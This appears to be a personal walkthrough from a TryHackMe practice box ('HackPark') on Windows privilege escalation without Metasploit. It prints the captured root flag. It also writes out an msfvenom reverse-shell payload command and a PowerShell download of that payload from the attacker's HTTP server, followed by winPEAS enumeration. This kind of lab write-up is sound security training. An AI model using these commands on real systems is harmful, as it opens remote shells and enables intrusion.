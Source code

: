 #got the user flag, next is admin flag
C:\Users\Administrator\Desktop>type root.txt
type root.txt
7e13d97f05f7ceb9881a3eb3d78d3e72

#nice:)









## privesc without metasploit ###
        #1 = use reverse shell we got 
        #2 = use winPEAS to enumerate the system

#1 generate a more stable shell using msfvenom:
(kali㉿kali)-[~/THM/practice/hackpark]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.11.59.68 LPORT=9999 -f exe > shell.exe                 130 ⨯
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes

#2 pull it to the box (httpserver + powershell):
kali㉿kali)-[~/THM/practice/hackpark]
└─$ python -m SimpleHTTPServer 80

c:\windows\system32\inetsrv>
powershell -c "Invoke-WebRequest -Uri 'http://10.11.59.68:80/shell.exe' -Outfile 'C:\Windows\Temp\shell.exe'"

        #andddd
C:\Windows\Temp>dir
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552
 Directory of C:\Windows\Temp
02/10/2022  03:22 PM    <DIR>          .
02/10/2022  03:22 PM    <DIR>          ..
08/06/2019  01:13 PM             8,795 Amazon_SSM_Agent_20190806141239.log
08/06/2019  01:13 PM           181,468 Amazon_SSM_Agent_20190806141239_000_AmazonSSMAgentMSI.log
08/06/2019  01:13 PM             1,206 cleanup.txt
08/06/2019  01:13 PM               421 cmdout
08/06/2019  01:11 PM                 0 DMI2EBC.tmp
08/03/2019  09:43 AM                 0 DMI4D21.tmp
08/06/2019  01:12 PM             8,743 EC2ConfigService_20190806141221.log
08/06/2019  01:12 PM           292,438 EC2ConfigService_20190806141221_000_WiXEC2ConfigSetup_64.log
02/10/2022  02:41 PM    <DIR>          Microsoft
02/10/2022  02:43 PM                 0 reg.hiv
02/10/2022  02:25 PM            73,802 reverse.exe
02/10/2022  03:22 PM            73,802 shell.exe
        #there it is

#3 repeat pulling winPEAS.bat
        #except I already had it there from previous privesc

#4 run winPEAS
#and we got the original install date and could repeat the same stuff we did in meterpreter in this shell:)
